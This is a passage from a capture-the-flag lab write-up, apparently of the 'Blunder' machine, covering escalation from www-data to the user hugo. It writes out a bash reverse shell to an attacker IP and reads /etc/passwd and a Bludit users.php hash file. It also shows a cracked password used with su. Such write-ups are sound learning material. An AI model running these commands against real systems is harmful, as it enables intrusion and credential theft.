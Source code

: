 Success! We have a shell as the `www-data` user.

## Privesc: `www-data` to `user`

The first thing I notice is that we had a terrible shell. This seems to be how we made the `msfvenom` payload. I kept trying to get a better shell, such as using the Python spawn TTY method, which wasn't working. After a bit of research and some more thinking... I finally figured out, I could create a simple bash reverse shell

```none
bash -c "bash -i >& /dev/tcp/10.10.14.7/9001 0>&1"
```

Usually, I would do this as a reverse shell in a PHP payload and had never done it after getting a shell. New thing learned for today! Started running linpeas in the background, and continued my manual enumeration. Apart from finding a list of users on the system, linpeas didn't help me much.

```none
cat /etc/passwd | grep sh
root:x:0:0:root:/root:/bin/bash
shaun:x:1000:1000:blunder,,,:/home/shaun:/bin/bash
hugo:x:1001:1001:Hugo,1337,07,08,09:/home/hugo:/bin/bash
temp:x:1002:1002:,,,:/home/temp:/bin/bash
```

Having a quick look at the users, I can see that `hugo` has the user flag. I started looking for unusual files in the home directories, then moved on to looking at the web app files. There is a `users.php` file with user information and hashed passwords.

```none
cat /var/www/bludit-3.9.2/bl-content/databases/users.php
```

I tried to crack both passwords with [Crackstation](https://crackstation.net/) but couldn't get results for either password. After a bit more digging, I found that there were two versions of the `bludit` software. The other version `3.10` had the same `user.php` file which had a different user and hash! The user was `hugo` and had a different hash value of: `faca404fd5c0a31cf1897b823c695c85cffeb98d`. I loaded up Crackstation again and got a result of `Password120`. After this, it was easy to switch to the `hugo` user.

```none
www-data@blunder:/dev/shm$ su - hugo
su - hugo
Password: Password120
id
uid=1001(hugo) gid=1001(hugo) groups=1001(hugo)
wc -c user.txt  
33 user.txt
```

Success! The user flag!

## Privesc: `hugo` to `root`

Started the privesc with some manual enumeration and found an interesting `sudo` entry.
